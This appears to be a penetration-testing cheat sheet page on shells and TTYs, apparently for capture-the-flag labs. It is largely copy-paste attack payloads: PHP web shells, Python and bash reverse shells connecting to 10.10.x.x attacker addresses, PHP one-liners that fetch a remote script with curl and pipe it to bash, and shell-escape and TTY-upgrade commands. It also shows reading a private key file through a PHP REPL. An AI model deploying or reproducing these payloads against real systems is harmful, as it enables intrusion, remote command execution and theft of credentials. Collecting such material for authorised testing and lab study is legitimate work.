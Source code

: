 ```yaml
---
icon: book-skull
description: Teletypewriters and Shells
---
```


# Shells/TTYs

{% hint style="info" %}
## <mark style="color:purple;">`TTYs`</mark>

### <mark style="color:purple;">Ncat</mark>

* <mark style="color:purple;">You can use the</mark> <mark style="color:orange;">**`rlwrap`**</mark> <mark style="color:purple;">utility to</mark> <mark style="color:purple;">enable line editing and history.</mark>
* <mark style="color:purple;">In order to have a full</mark> <mark style="color:orange;">**`TTY`**</mark> <mark style="color:purple;">**follow this steps:**</mark>

#### <mark style="color:orange;">`BASH`</mark><mark style="color:purple;">:</mark>

1. <mark style="color:purple;">`python3 -c 'import pty; pty.spawn("/bin/bash")'`</mark>
2. &#x20;<mark style="color:purple;">`CTRL+Z`</mark>
3. <mark style="color:purple;">`stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`</mark>

<mark style="color:orange;">**`ZSH`**</mark><mark style="color:purple;">:</mark>

* <mark style="color:purple;">Same first two steps and then:</mark>

{% code overflow="wrap" %}
```bash
stty raw -echo; fg %1; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}
{% endhint %}

***

## <mark style="color:purple;">Shells</mark>

{% hint style="info" %}
## <mark style="color:purple;">`PSY`</mark>

* <mark style="color:orange;">**`PSY`**</mark> <mark style="color:purple;">Shell is an interactive</mark> <mark style="color:orange;">**`PHP REPL (Read-Eval-Print Loop)`**</mark> <mark style="color:purple;">used normally for debugging.</mark>

***

### <mark style="color:purple;">Useful Commands:</mark>

{% code title="Very handy" %}
```sh
help
```
{% endcode %}

{% code title="Print the working directory" %}
```php
getcwd()
```
{% endcode %}

{% code title="Print the current user" %}
```php
get_current_user()
```
{% endcode %}

{% code title="Print system info" %}
```php
phpinfo()
```
{% endcode %}

{% code title="Print contents from directory" %}
```php
scandir("/home")
```
{% endcode %}

{% code title="Print content from file" %}
```php
file_get_contents("/etc/os-release")
```
{% endcode %}

* <mark style="color:purple;">If there are break line characters like</mark> <mark style="color:orange;">**`/n`**</mark> <mark style="color:purple;">and you want to get ride of then:</mark>

```php
echo file_get_contents("/home/nairobi/ca.key")
```
{% endhint %}

***

{% hint style="warning" %}
## Web Shells

### <mark style="color:orange;">`PHP`</mark>

{% code title="Standard shell" %}
```php
<?php system($_REQUEST['cmd']); ?>
```
{% endcode %}

{% code title="Create cmd.php" %}
```bash
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Reverse Shells</mark>

### <mark style="color:purple;">Python Reverse Shells</mark>

#### <mark style="color:purple;">One liners</mark>

{% code title="Uses pty  " overflow="wrap" %}
```sh
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
{% endcode %}

{% code title="Uses subprocess" overflow="wrap" %}
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

#### <mark style="color:purple;">Create the shell file</mark>

{% code title="Uses pty " overflow="wrap" %}
```sh
echo 'import pty
import socket
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.16.6", 4444))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn("/bin/bash")
s.close()' > shell.py
```
{% endcode %}

{% code title="Uses subprocess " overflow="wrap" %}
```bash
echo 'import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.157", 1235))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
subprocess.call(["/bin/sh", "-i"])
s.close()' > shell.py
```
{% endcode %}
{% endhint %}









Spawning Shells

```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
python3 -c 'import pty; pty.spawn("/bin/sh")'

script -qc /bin/bash /dev/null

echo os.system('/bin/bash') 
/bin/sh -i 
perl -e 'exec "/bin/sh";' 
perl: exec "/bin/sh"; 
ruby: exec "/bin/sh" 
lua: os.execute('/bin/sh') 
exec "/bin/sh"; 
/bin/bash -i
exec "/bin/sh"                # (From within IRB) 
:!bash                        # (From within vi)
:set shell=/bin/bash:shell    # (From within vi) 
!sh                           # (From within nmap)
```





***



HTTP

```bash
With Url:
<http://10.10.14.14/$>(bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1')
```

PHP

```bash
#For index.php files
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");?>

#To copy inside a file
echo '<?php system("curl <http://10.10.14.16:443/rev.sh> | bash"); ?>' > hola.php

```

BASH + PHP

```bash
#Create the rev shell first

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.16/443 0>&1

#Copy it in to file with at http server
echo '<?php system("curl <http://10.10.14.16:80/hey> | bash"); ?>'
```

Standard [shell.sh](http://shell.sh)

```c
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```


